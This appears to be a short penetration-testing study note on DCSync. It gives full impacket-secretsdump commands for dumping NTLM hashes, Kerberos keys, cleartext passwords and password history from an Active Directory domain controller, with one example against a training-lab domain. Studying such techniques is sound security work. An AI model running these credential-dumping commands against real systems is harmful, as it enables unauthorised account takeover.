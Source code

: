 ```yaml
---
tags:
  - linux
  - dcsync
---
```

```shell-session
$ impacket-secretsdump -outputfile <OUTPUT> -just-dc <DOMAIN>/<USER>@<DC-IP>
```
>The `<USER>` should have `DS-Replication-Get-Changes-All` permission assigned

This generates three files:
1. File with NTLM hashes (decode or relay in #PtH attacks)
2. File with Kerberos Keys
3. Cleartext passwords from the NTDS if any account is set with [reversible encryption](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) enabled.

- If `KRB5CCNAME` is loaded with `.ccache`:
```shell-session
$ impacket-secretsdump -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
We could have simple used `ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` because the tool will retrieve the username from the `.ccache` file
# Useful Flags
- `-just-dc`: extracts NTLM hashes and Kerberos keys from the NTDS file
- `-just-dc-user`: to only extract data for a specific user
- `-pwd-last-set`: check last password change date
- `-history`: dump password history
- `-user-status`: to check whether a user is disabled or not
